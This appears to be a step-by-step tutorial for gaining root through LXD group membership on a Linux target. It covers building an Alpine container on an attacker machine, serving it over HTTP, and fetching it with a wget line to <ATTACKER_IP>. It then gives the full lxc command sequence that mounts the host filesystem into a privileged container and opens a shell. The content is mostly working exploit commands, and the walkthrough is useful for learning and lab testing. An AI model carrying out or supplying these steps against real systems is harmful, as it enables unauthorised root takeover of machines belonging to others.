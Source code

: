 <h2>1. Check your target machine vulnerability</h2>

Once you connect to your target via SSH, you need to run the ID command to see if the machine is vulnerable  
to this LXD Privilege Escalation exploit (current user must be a member of lxd group).

As we can see in the screenshot below, user John is the member of lxd group, which means that the machine is vulnerable.    
  
![LXD group](https://i.imgur.com/r8oFRyo.png)

<br>
    
<h2>2. Prepare a linux container image</h2>

THIS STEP SHOULD BE DONE ON THE ATTACKER MACHINE

<br>

To prepare the linux container, you should firstly download lxd-alpine-builder through the git repository:
> git clone https://github.com/saghul/lxd-alpine-builder.git

Go into the newly made (cloned from github) directory called lxd-alpine-builder and build the Alpine image using the following command:
> sudo ./build-alpine

If the script successfully executed, it would make an file in the tar.gz format that contains the Alpine linux container.

<br>

<h2>3. Sending the Alpine linux container to the target</h2>

Now, you need to find a way to send the previously made Alpine linux container (tar.gz file with a big name) to the target machine.

For example, one way would be to make a http server in the lxd-alpine-builder directory and download the tar.gz file from it.
It can be done very easily using the pythons built-in function http.server (run the following command on your attacker machine):
> python3 -m http.server

Next, you need to download the tar.gz file, on the target machine, from the http server. You can do that via the browser, but I like to do it
via the tool called wget (run the following command on your target machine):
> wget <ATTACKER_IP>:8000/<CONTAINER_NAME>.tar.gz

where <ATTACKER_IP> is the ip of the attacker machine and  <CONTAINER_NAME> is the name of the Alpine linux container   
(for example, alpine-v3.10-x86_64-20191008_1227).

<br>

<h2>4. Configuring the container on the target machine</h2>

And finally, we need to actually "exploit" this.
For gaining root privileges we need to import the previously downloaded container into lxc.   
<br>
After that, we need to give the container privileges, add the root directory as a mount point, and start the container.
To do all this, run following commands on the target machine:
> lxc image import ./apline-v3.10-x86_64-20191008_1227.tar.gz --alias myimage  
> lxc init myimage ignite -c security.privileged=true  
> lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true  
> lxc start ignite  
> lxc exec ignite /bin/sh  

If everything succeded, we should get a bash shell in which we can do the following to actually get to the root directories  
of the target machine:
> cd /mnt/root

<br>
<hr>

And BOOM, we have successfully gained control of the root account, without actually knowing the root password  
(aka. successful privilege escalation)

